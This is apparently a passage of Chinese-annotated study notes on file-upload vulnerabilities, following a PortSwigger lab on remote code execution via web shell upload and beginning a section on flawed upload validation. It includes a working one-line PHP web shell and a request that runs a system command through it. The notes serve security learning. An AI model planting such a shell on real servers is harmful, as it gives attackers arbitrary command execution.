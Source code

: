 **LAB**

一个没有限制的文件上传漏洞实验。

[Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

A more **versatile**（通用的） web shell may look something like this:

```php
<?php echo system($_GET['command']); ?>
```

This script enables you to pass an arbitrary system command via a query parameter as follows:

```http
GET /example/exploit.php?command=id HTTP/1.1
```

## 六. Exploiting flawed validation of file uploads

In the wild, it's unlikely that you'll find a website that has no protection whatsoever against file upload attacks like we saw in the previous lab. But just because defenses are in place, that doesn't mean that they're robust.

In this section, we'll look at some ways that web servers attempt to validate and sanitize file uploads, as well as how you can exploit flaws in these mechanisms to obtain a web shell for remote code execution.

### 6.1 Flawed file type validation

When submitting HTML forms, the browser typically sends the provided data in a `POST` request with the content type `application/x-www-form-url-encoded`. This is fine for sending simple text like your name, address, and so on, but is not suitable for sending large amounts of binary data, such as an entire image file or a PDF document. In this case, the content type `multipart/form-data` is the preferred approach.

Consider a form containing fields for uploading an image, providing a description of it, and entering your username. Submitting such a form might result in a request that looks something like this:

```http
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```
